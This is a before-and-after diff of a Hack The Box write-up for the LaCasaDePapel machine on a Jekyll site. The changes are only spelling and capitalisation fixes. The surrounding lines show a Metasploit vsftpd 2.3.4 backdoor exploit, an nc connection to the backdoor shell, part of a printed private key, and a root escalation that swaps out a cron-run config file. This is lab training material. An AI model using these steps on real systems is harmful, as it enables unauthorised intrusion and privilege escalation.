

Before and after one commit to b4cksp4c3/b4cksp4c3.github.io, a Jekyll site: the page built from htb/writeups/lacasadepapel.md, in a window 1280 px wide and 1400 px high, scrolled down 1654 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

````diff
--- a/htb/writeups/lacasadepapel.md
+++ b/htb/writeups/lacasadepapel.md
@@ -63,7 +63,7 @@ Exploit target:
    --  ----
    0   Automatic
 ```
-The only thing that we have to set is the RHOSTS. Running the exploit we see that the expoit completed but no sessions was created
+The only thing that we have to set is the RHOSTS. Running the exploit we see that the exploit completed but no session was created
 ```
 msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.131
 RHOSTS => 10.10.10.131
@@ -73,7 +73,7 @@ msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run
 [*] 10.10.10.131:21 - USER: 331 Please specify the password.
 [*] Exploit completed, but no session was created.
 ```
-If we run the exploit a second time we get a different message. It says that the port for the backdoor is open but its not a shell which most likely means its not a bash shell.
+If we run the exploit a second time we get a different message. It says that the port for the backdoor is open but it's not a shell which most likely means it's not a bash shell.
 ```
 msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run
 
@@ -81,7 +81,7 @@ msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run
 [-] 10.10.10.131:21 - The service on port 6200 does not appear to be a shell
 [*] Exploit completed, but no session was created.
 ```
-Running an nmap scan on port 6200 will show that the port is now open
+Running an Nmap scan on port 6200 will show that the port is now open
 ```
 # nmap -p 6200 10.10.10.131
 Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-18 12:30 EDT
@@ -93,7 +93,7 @@ PORT     STATE SERVICE
 
 Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds
 ```
-We can use netcat to connect to the backdoor. Once in we are greeted with a Psy Shell which is basically a php Shell
+We can use <b>netcat</b> to connect to the backdoor. Once in we are greeted with a Psy Shell which is basically a PHP Shell
 ```
 # nc -nv 10.10.10.131 6200
 Ncat: Version 7.80 ( https://nmap.org/ncat )
@@ -200,7 +200,7 @@ aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc
 53udBEzjt3WPqYGkkDknVhjD
 -----END PRIVATE KEY-----
 ```
-Now the next step is to grab the <b>.crt</b> file from your web browser. in firefox navigate to <b>Preferences > Privacy and Security > View Certificates</b>. Once there, in the top right click on <b>Authorities</b> and scroll down until you see the certificate for <b>lacasadepapelhtb.htb</b> and then import/download it to you host machine.
+Now the next step is to grab the <b>.crt</b> file from your web browser. In Firefox navigate to <b>Preferences > Privacy and Security > View Certificates</b>. Once there, in the top right click on <b>Authorities</b> and scroll down until you see the certificate for <b>lacasadepapelhtb.htb</b> and then import/download it to you host machine.
 
 <center><img src="/htb/lacasadepapel/certificate.png"></center>
 <br>
@@ -284,7 +284,7 @@ cat memcached.ini
 [program:memcached]
 command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
 ```
-This file has the same command that is being executed in the process. This tells me that the cron job is executing anything in this file as root. My first thought was we need to edit the <b>memcached.ini</b> file to put in a reverse shell to give me root but I saw that we don't have write permissions. After a sometime had passed, I had realized I needed to go back to the basics. Even though the file is owned by root, we can still delete the file because it is in our home directory. All we need to do is replace it with a file of our own with the same name to give us a root shell
+This file has the same command that is being executed in the process. This tells me that the cron job is executing anything in this file as root. My first thought was we need to edit the <b>memcached.ini</b> file to put in a reverse shell to give me root but I saw that we don't have write permissions. After sometime had passed, I had realized I needed to go back to the basics. Even though the file is owned by root, we can still delete the file because it is in our home directory. All we need to do is replace it with a file of our own with the same name to give us a root shell
 ```
 # rm memcached.ini
 rm: remove 'memcached.ini'? y
````
Also changed, not shown: other parts of htb/writeups/lacasadepapel.md (+6 -6 lines).
